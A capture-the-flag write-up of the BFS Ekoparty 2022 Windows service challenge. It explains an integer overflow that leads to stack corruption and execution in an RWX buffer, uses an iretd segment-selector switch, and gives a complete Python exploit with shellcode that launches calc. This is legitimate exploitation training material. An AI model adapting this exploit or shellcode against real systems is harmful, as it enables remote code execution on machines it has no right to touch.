




# BFS Ekoparty 2022 Exploitation challenges report/writeup

_Date: 20/11/2022_

_Challenge: BFS Ekoparty 2022 Exploitation challenges_

_Target: Windows service 'bfs-eko2022.exe'_

_url: [BFS Ekoparty 2022 Exploitation Challenges](https://labs.bluefrostsecurity.de/blog.html/2022/10/25/bfs-ekoparty-2022-exploitation-challenges/)_

----

## Target

The target implements a simple client-server service. Only one client per time is supported. The client does send messages and based on their contents the server does execute some parts of codes. 

The following point summarizes the control flow executed:

- client sends the handshake `"Hello\0\0"`
- server sends `"Hi\0"`
- client sends the header

```c
struct header{
	unsigned long long opcode_1;
	unsigned char packet_typ;
	short len_body;
}
```

- server checks struct header's field
-  if checks were fine, then client sends the body which is a blob of byte with size `len_body`
-  server does some checks

----

## Vulnerability

We have several vulnerabilities: (1) Writable and executable memory area. (2) integer overflow on `len_body` struct header's field  by comparing it as signed short type  and then using it on recv call as unsigned short type. (3) Undefined behaviour on recv's return value at location 1400013A9h


<p style="text-align: center;"> Vuln (1) </p>

</br>



<p style="text-align: center;"> Vuln (2) and (3) </p>

</br>

----

## Exploitation

The integer overflow vulnerability (2) is exploitable as it leads to a stack overflow. Because of canary we can only modify data below the canary location, which is quite fine because we can change the `header.packet_typ` field from `"T"` to `"X"`, thus permitting us to execute arbitrary assembly code inside the memory area allocated with write and execute permissions (1).



<p style="text-align: center;"> Arbitrary code execution </p>

</br>

Before going further by showing the actual PoC, more information are provided below.

(1) The body request sent from the client is saved at the address `0x10000000`, which is always initialezed before the recv call with the constants `0x5050505050505050` and `0x0CF58585858585858` repeated to fill completely the memory area. Also each byte `"0x33"` and `"0x2B"` inside the body is set to zero. 

(2) Finally, before doing the arbitrary assembly code the program does change the address target by adding the return value of the `recv` which if everything went well should be the bytes received before. So at least we can choose which instruction, out of the constants 
`0x5050505050505050` and `0x0CF58585858585858`, to execute. Below is shown the disassembly of those constants.



<p style="text-align: center;"> Disasm of the initialized 0x10000000 memory area </p>

</br>

(3) The `iretd` is an instruction which is usually called from kernel code before returning to an user space process. Before calling `iretd` the following register-new-values are expected to be present on the stack: EIP, CS, EFLAGS, SP, SS. 

- The default CS value for x64 process is `"0x33"` and SS `"0x23"`, but as explained before we cannot insert those values in the request sent
- As CS new value `0x23` can be set, as it is used on x86 wow64 process and also the code address space is below the 32 bit
- SS can be set to a valid segment selector, which was not possible to find besides of `0x2B`. Instead `"0x53"` was used
- More information: 

   * [iretd call example](http://jamesmolloy.co.uk/tutorial_html/10.-User%20Mode.html)

   * [The "heaven gate" segment selector](https://www.malwaretech.com/2014/02/the-0x33-segment-selector-heavens-gate.html)


(4) The final idea is to use `iretd` instruction. Before doing the arbitrary call, client input is saved on stack. Lucky for us the stack pointer is below the buffer by 0x38 bytes. And so by executing 7 `pop` instructions we would be able to craft `iretd`'s arguments.

(5) After jumping to shellcode, `iretd` is executed again restoring the x64 address space and so instructions, read comments inside the poc for more info.


----

## PoC

- poc.py
- poc.gif

```python
#!/usr/bin/env python3
import socket
import sys
import struct
import time

# Author: Altin (tin-z) (https://github.com/tin-z)


if len(sys.argv) != 3 :
  print("Usage {} <host> <ip>".format(sys.argv[0]))
  sys.exit(-1)

HOST = sys.argv[1]
PORT = int(sys.argv[2])

try :
  print("[!] Sending")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((HOST, PORT))
except socket.error:
  print("Could not connect!")
  sys.exit(-1)


def flush(t_sleep=1):
  time.sleep(t_sleep)

def send():
  global msg, s
  flush()
  s.send(msg)


def recv_until(msg):
  global s
  data = b''
  while not data.endswith(msg):
    tmp = s.recv(1)
    if not tmp :
      break
    data += tmp
  return data


def recv():
  global s
  data = b''
  while 1 :
    tmp = s.recv(1)
    if not tmp :
      break
    data += tmp
  return data


def get_header() :
  opcode_1 = struct.pack("<Q", 0x323230326F6B45)
  packet_typ = b"T"
  len_body = struct.pack("<H", 0xf0f0)
  header = opcode_1 + packet_typ + len_body
  return header


def get_shellcode(is_64=False):
  szp = "<Q" if is_64 else "<I"

  # 0. Set iretd arguments
  ret_shellcode = struct.pack(szp, 0x10000014)

  # https://www.malwaretech.com/2014/02/the-0x33-segment-selector-heavens-gate.html
  #   - we cant use the 0x33 Segment Selector ("Heavens Gate") which permits to execute 64-bit code in an 32-bit (WOW64) Process
  #   - we can also do the inverse step passing from x64 to x86 segment selector
  #   - x86 code segment ---> 0x23, x64 code segment ---> 0x33
  cs = struct.pack(szp, 0x23)
  eflags = struct.pack(szp, 0x246)
  sp = struct.pack(szp, 0x1000fff0)

  # we use GS segment register value 0x53
  ss = struct.pack(szp, 0x53)

  # 1. restore stack address to its original value (rcx does leak it)
  # "MOV ESP, ECX"
  g0 = b"\x89\xcc"

  # 2. fix SS, CS registers to their old values
  #     - note: we can't set directly CS register instead we can invoke iretd again
  # "XOR EAX, EAX; INC EAX; OR EAX, 0x2A; MOV SS, EAX; MOV ESI, EAX; XOR EAX, 0x1B; OR EAX, 0x3; MOV EDI, EAX"
  g1_1 = b"\x31\xc0\x40\x83\xc8\x2a\x8e\xd0\x89\xc6\x83\xf0\x1b\x83\xc8\x03\x89\xc7"
  # "SUB ECX, 0x38; POP EAX; POP EBX; POP EBX; POP EDX; POP EDX; PUSH ESI; PUSH ECX; PUSH EBX; PUSH EDI; ADD EAX, 0x25; PUSH EAX; IRETD"
  g1_2 = b"\x83\xe9\x38\x58\x5b\x5b\x5a\x5a\x56\x51\x53\x57\x83\xc0\x25\x50\xcf"

  # 3. iretd does set RSP to a 256-aligned address
  # "MOV RSP, RCX"
  g2 = b"\x48\x89\xcc" 

  # https://github.com/peterferrie/win-exec-calc-shellcode/blob/master/w64-exec-calc-shellcode.asm
  # compiled as: nasm w64-exec-calc-shellcode.asm -o w64-exec-calc-shellcode.bin -DSTACK_ALIGN=TRUE -DFUNC=TRUE -DCLEAN=TRUE
  buff = \
    b"\x50\x51\x52\x53\x56\x57\x55\x54\x58\x66\x83\xe4\xf0\x50\x6a\x60\x5a\x68\x63\x61\x6c" \
    b"\x63\x54\x59\x48\x29\xd4\x65\x48\x8b\x32\x48\x8b\x76\x18\x48\x8b\x76\x10\x48\xad\x48" \
    b"\x8b\x30\x48\x8b\x7e\x30\x03\x57\x3c\x8b\x5c\x17\x28\x8b\x74\x1f\x20\x48\x01\xfe\x8b" \
    b"\x54\x1f\x24\x0f\xb7\x2c\x17\x8d\x52\x02\xad\x81\x3c\x07\x57\x69\x6e\x45\x75\xef\x8b" \
    b"\x74\x1f\x1c\x48\x01\xfe\x8b\x34\xae\x48\x01\xf7\x99\xff\xd7\x48\x83\xc4\x68\x5c\x5d" \
    b"\x5f\x5e\x5b\x5a\x59\x58\xc3"

  buff = ret_shellcode + cs + eflags + sp + ss + g0 + g1_1 + g1_2 + g2 + buff
  return buff


###
## Main
#

# 1. send handshake
msg = b"Hello\0\0\0\0"
send()
print(recv_until(b"Hi"))


# 2. send header + body
header = get_header()

size = 0xf00
buff = get_shellcode()
body = buff + (b"A" * (size - len(buff))) + b"X" + b"0"*7

msg = header + body
send()
print("Sending {} bytes".format(len(msg)))

rets = recv()
print("[+] receiving", rets)


# ref "recv" errors:
#   - https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-recv
#   - https://learn.microsoft.com/en-us/windows/win32/winsock/windows-sockets-error-codes-2

s.close()
print("[+] Done!")

```



